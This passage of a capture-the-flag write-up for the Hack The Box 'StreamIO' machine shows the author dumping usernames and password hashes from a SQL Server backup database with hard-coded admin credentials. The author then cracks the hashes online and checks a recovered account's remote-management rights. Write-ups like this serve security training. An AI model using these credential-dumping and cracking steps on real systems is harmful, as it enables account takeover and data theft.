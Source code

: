 After listing the databases, we found an interesting one, **STREAMIO_BACKUP**.

```bash
PS C:\inetpub\streamio.htb\admin> sqlcmd -S '(local)' -U db_admin -P 'B1@hx31234567890' -Q 'USE STREAMIO_BACKUP; SELECT username,password FROM users;'
sqlcmd -S '(local)' -U db_admin -P 'B1@hx31234567890' -Q 'USE STREAMIO_BACKUP; select username,password from users;'
Changed database context to 'streamio_backup'.
username                                           password                                          
-------------------------------------------------- --------------------------------------------------
nikk37                                             389d14cb8e4e9b94b137deb1caf0612a                  
yoshihide                                          b779ba15cedfd22a023c4d8bcf5f2332                  
James                                              c660060492d9edcaa8332d89c99c9239                  
Theodore                                           925e5408ecb67aea449373d668b7359e                  
Samantha                                           083ffae904143c4796e464dac33c1f7d                  
Lauren                                             08344b85b329d7efd611b7a7743e8a09                  
William                                            d62be0dc82071bccc1322d64ec5b6c51                  
Sabrina                                            f87d3c0d6c8fd686aacc6627f1f493a5                  

(8 rows affected)
```

Nice! Again, with [https://crackstation.net](https://crackstation.net), we obtained the following plaintext passwords.

![image-center](/images/htb/htb_streamio_crack.png){: .align-center}

By looking at the discovered users permission, we can see that **nikk37** (`nikk37:get_dem_girls2@yahoo.com`) has remote management privileges.

```bash
PS C:\inetpub\streamio.htb\admin> net users nikk37
net users nikk37
User name                    nikk37
Full Name                    
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            2/22/2022 1:57:16 AM
Password expires             Never
Password changeable          2/23/2022 1:57:16 AM
Password required            Yes
```